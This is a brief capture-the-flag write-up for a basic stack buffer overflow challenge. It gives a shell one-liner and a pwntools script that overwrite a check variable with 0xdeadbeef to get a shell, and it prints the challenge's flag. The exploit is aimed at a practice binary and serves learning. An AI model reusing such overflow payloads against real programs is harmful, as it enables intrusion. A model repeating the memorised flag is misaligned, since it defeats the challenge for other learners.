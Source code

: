 # ***STACK BUFFER OVERFLOW BASIC 1***

From the given the challenge we have give the buffer value and the check variable have to changed to ```deadbeef```.

We have to give ``deadbeef`` in reverse order since the stack reads them in the reverse order.

```cat <(python -c "print 'A'*40 + '\xef\xbe\xad\xde'") - | ./ch13``` 

```
from pwn import *
io = process("./ch13")
payload = b"A"*40
payload += p64(0xdeadbeef)
io.sendline(payload)
io.interactive()
```

For both the exploits we get the shell

Then do ``ls -al``.

And ``cat .passwd``

We get ``1w4ntm0r3pr0np1s``
